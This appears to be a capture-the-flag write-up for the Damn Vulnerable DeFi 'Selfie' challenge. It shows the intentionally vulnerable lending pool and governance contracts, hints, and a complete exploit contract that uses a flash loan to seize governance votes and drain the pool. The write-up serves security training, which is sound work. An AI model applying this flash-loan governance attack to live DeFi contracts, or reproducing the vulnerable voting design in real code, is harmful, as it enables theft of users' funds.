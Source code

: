 ```yaml
---
layout: post
title: 'Damn Vulnerable Defi 6: Selfie'
category: Damn Vulnerable Defi
excerpt_separator:  <!--more-->
---
```


### Challenge:
Our sixth challenge is called 'selfie' and it comes with the following prompt:

```
A new cool lending pool has launched! It's now offering flash loans of DVT tokens.

Wow, and it even includes a really fancy governance mechanism to control it.

What could go wrong, right ?

You start with no DVT tokens in balance, and the pool has 1.5 million. Your objective: take them all.
```

So all we have to do is drain the lending pool!

The contracts for this challenge are located in contracts/selfie/. The contract source code can be found below:

<details>
<summary> SelfiePool.sol:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/token/ERC20/extensions/ERC20Snapshot.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "./SimpleGovernance.sol";

/**
 * @title SelfiePool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract SelfiePool is ReentrancyGuard {

    using Address for address;

    ERC20Snapshot public token;
    SimpleGovernance public governance;

    event FundsDrained(address indexed receiver, uint256 amount);

    modifier onlyGovernance() {
        require(msg.sender == address(governance), "Only governance can execute this action");
        _;
    }

    constructor(address tokenAddress, address governanceAddress) {
        token = ERC20Snapshot(tokenAddress);
        governance = SimpleGovernance(governanceAddress);
    }

    function flashLoan(uint256 borrowAmount) external nonReentrant {
        uint256 balanceBefore = token.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");
        
        token.transfer(msg.sender, borrowAmount);        
        
        require(msg.sender.isContract(), "Sender must be a deployed contract");
        msg.sender.functionCall(
            abi.encodeWithSignature(
                "receiveTokens(address,uint256)",
                address(token),
                borrowAmount
            )
        );
        
        uint256 balanceAfter = token.balanceOf(address(this));

        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }

    function drainAllFunds(address receiver) external onlyGovernance {
        uint256 amount = token.balanceOf(address(this));
        token.transfer(receiver, amount);
        
        emit FundsDrained(receiver, amount);
    }
}
```
</div>
</details>

<details>
<summary> SimpleGovernance.sol:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../DamnValuableTokenSnapshot.sol";
import "@openzeppelin/contracts/utils/Address.sol";

/**
 * @title SimpleGovernance
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract SimpleGovernance {

    using Address for address;
    
    struct GovernanceAction {
        address receiver;
        bytes data;
        uint256 weiAmount;
        uint256 proposedAt;
        uint256 executedAt;
    }
    
    DamnValuableTokenSnapshot public governanceToken;

    mapping(uint256 => GovernanceAction) public actions;
    uint256 private actionCounter;
    uint256 private ACTION_DELAY_IN_SECONDS = 2 days;

    event ActionQueued(uint256 actionId, address indexed caller);
    event ActionExecuted(uint256 actionId, address indexed caller);

    constructor(address governanceTokenAddress) {
        require(governanceTokenAddress != address(0), "Governance token cannot be zero address");
        governanceToken = DamnValuableTokenSnapshot(governanceTokenAddress);
        actionCounter = 1;
    }
    
    function queueAction(address receiver, bytes calldata data, uint256 weiAmount) external returns (uint256) {
        require(_hasEnoughVotes(msg.sender), "Not enough votes to propose an action");
        require(receiver != address(this), "Cannot queue actions that affect Governance");

        uint256 actionId = actionCounter;

        GovernanceAction storage actionToQueue = actions[actionId];
        actionToQueue.receiver = receiver;
        actionToQueue.weiAmount = weiAmount;
        actionToQueue.data = data;
        actionToQueue.proposedAt = block.timestamp;

        actionCounter++;

        emit ActionQueued(actionId, msg.sender);
        return actionId;
    }

    function executeAction(uint256 actionId) external payable {
        require(_canBeExecuted(actionId), "Cannot execute this action");
        
        GovernanceAction storage actionToExecute = actions[actionId];
        actionToExecute.executedAt = block.timestamp;

        actionToExecute.receiver.functionCallWithValue(
            actionToExecute.data,
            actionToExecute.weiAmount
        );

        emit ActionExecuted(actionId, msg.sender);
    }

    function getActionDelay() public view returns (uint256) {
        return ACTION_DELAY_IN_SECONDS;
    }

    /**
     * @dev an action can only be executed if:
     * 1) it's never been executed before and
     * 2) enough time has passed since it was first proposed
     */
    function _canBeExecuted(uint256 actionId) private view returns (bool) {
        GovernanceAction memory actionToExecute = actions[actionId];
        return (
            actionToExecute.executedAt == 0 &&
            (block.timestamp - actionToExecute.proposedAt >= ACTION_DELAY_IN_SECONDS)
        );
    }
    
    function _hasEnoughVotes(address account) private view returns (bool) {
        uint256 balance = governanceToken.getBalanceAtLastSnapshot(account);
        uint256 halfTotalSupply = governanceToken.getTotalSupplyAtLastSnapshot() / 2;
        return balance > halfTotalSupply;
    }
}
```
</div>
</details>

The hints and solutions for this level can be found below:

<details>
<summary> Hint 1:</summary>
<br>
<div markdown="1">
Yet another flash loan. How can we abuse the flash loan to take over the governance? Hint: how are votes calculated?
</div>
</details>

<details>
<summary> Hint 2:</summary>
<br>
<div markdown="1">
We can call the `snapshot()` function on the governance token at any time to record the balance of our attacker contract as well as the total supply.
</div>
</details>

<details>
<summary> Hint 3:</summary>
<br>
<div markdown="1">
We can use the flash loan to queue up an action. When we later activate the action from our attacker contract, who is the `msg.sender` for the executed action?
</div>
</details>

<details>
<summary> Solution:</summary>
<br>
<div markdown="1">
The flash loan allows us to temporarily borrow a huge number of governance tokens. During the flash loan, and while the governance tokens are still in our posession, we can call `snapshot()` to record the balance of our attacker contract and the current total supply. This is later used to check that we have enought votes to perform the `queueAction()`. We can now queue an action that will be a call to the `drainAllFunds()` function. With the action queued, we can repay our flash loan and wait the requried time of two days to execute our action. Notably, we will call into the governance contract in order to execute the action, which will in turn make an external call using our provided calldata (a call to the `drainAllFunds()` function). Whenever a regular (non delegating) external call is made, the `msg.sender` will be the calling contract. This is key, because this is how we can bypass the onlyGovernance modifier. Finally, `executeAction()` will call `drainAllFunds()` with the attacker address as a parameter and then all of the funds from the SelfiePool contract will be sent to the attacker and we have completed the challenge.
</div>
</details>

<details>
<summary> Ethers Solution:</summary>
<br>
<div markdown="1">
```
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        const SelfiePoolAttackFactory = await ethers.getContractFactory('SelfiePoolDrainer', deployer);
        this.s_attacker = await SelfiePoolAttackFactory.deploy(this.pool.address, this.governance.address, this.token.address);
        await this.s_attacker.attack(TOKENS_IN_POOL, attacker.address);
        await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60]);
        await this.s_attacker.payAttacker();
    });
```
</div>
</details>

<details>
<summary> Contract Solution:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

/*
 * @title SelfiePoolDrainer.sol
 * @author securerodd
 */
 interface ISelfiePool {
   function flashLoan(uint256) external;
}

 interface ISimpleGovernance { 
    function queueAction(address, bytes calldata, uint256) external returns (uint256);
    function executeAction(uint256) external;
}
interface IGovToken {
    function snapshot() external;
    function transfer(address, uint256) external;
}

contract SelfiePoolDrainer {
    ISelfiePool public pool;
    ISimpleGovernance public simpleGov;
    IGovToken public token;
    address attacker;
    uint256 attack_id;

    constructor(address _poolAddress, address _govAddress, address _token) {
        pool = ISelfiePool(_poolAddress);
        simpleGov = ISimpleGovernance(_govAddress);
        token = IGovToken(_token);
    }

    function receiveTokens(address _derp, uint256 _amount) external {
        token.snapshot();
        attack_id = simpleGov.queueAction(address(pool), abi.encodeWithSignature("drainAllFunds(address)", attacker), 0);
        token.transfer(address(pool), _amount); 
    }

    function payAttacker() external {
        simpleGov.executeAction(attack_id);
    }

    function attack(uint _amount, address _attacker) external {
        attacker = _attacker;
        pool.flashLoan(_amount);
    }
}
```
</div>
</details>
